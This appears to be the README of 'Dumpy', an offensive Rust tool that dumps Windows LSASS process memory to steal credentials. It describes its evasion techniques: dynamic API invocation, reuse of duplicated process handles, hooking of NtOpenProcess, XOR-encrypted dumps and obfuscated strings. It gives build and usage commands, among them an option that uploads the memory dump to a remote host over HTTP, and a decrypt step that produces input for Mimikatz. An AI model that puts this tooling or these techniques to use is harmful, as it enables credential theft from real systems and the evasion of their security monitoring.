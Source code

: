 # Description

This tool dynamically calls MiniDumpWriteDump to dump lsass memory content. This process is done without opening a new process handle to lsass and using [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs) to make it harder to detect its malicious behaviour. In order to obtain a valid process handle without calling OpenProcess over lsass, all process handles in the system are analyzed using NtQuerySystemInformation, NtDuplicateObject, NtQueryObject and QueryFullProcessImageNameW.

NtOpenProcess is hooked before calling MiniDumpWriteDump to avoid the opening of a new process handle over lsass.

NTFS Transaction are used in order to xor the memory dump before storing it on disk.

Support added for both x86 and x64.

# Compilation 

Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	set LITCRYPT_ENCRYPT_KEY="yoursupersecretkey"

After that, simply compile the code and execute it:

	cargo build
	dumpy.exe -h

# Usage

	USAGE:
    dumpy.exe [OPTIONS] <ACTION>

	ARGS:
	    <ACTION>    dump or decrypt

	OPTIONS:
	    -h, --help                         Print help information
	    -i, --input-file <INPUT_FILE>      Encrypted input file [default: c:\temp\input.txt]
	    -k, --key <KEY>                    Encryption key [default: 1234abcd]
	    -o, --output-file <OUTPUT_FILE>    Destination path [default: c:\temp\output.txt]
	    -u, --upload <UPLOAD>              URL where the dump should be uploaded [default:
	                                       http://remotehost/upload]
Dumpy has two main actions:

- **dump**: It will execute the main logic to dump the lsass content. By default, it will store the result in a xored text file with a random name in the current directory. The option **upload** allows to send the memory content over HTTP to a remote host, avoiding the creation of the xored file on disk. I've used [this simple HTTP server](https://gist.github.com/smidgedy/1986e52bb33af829383eb858cb38775c) in order to handle the upload, but any other HTTP server that supports **multipart/form-data requests*
* will work.

		dympy.exe dump -k secretKey -u http://remotehost/upload

- **decrypt**: This action allows to obtain the decrypted memory dump in the same format that tools like Mimikatz would expect. As arguments it expects the xored memory dump, the encryption key and the output file path. In case the xored file has been uploaded using HTTP, **it is required to perform a base64 decoding before this decryption process**.

		dumpy.exe decrypt -i xored.txt -o decrypted.txt -k secretKey
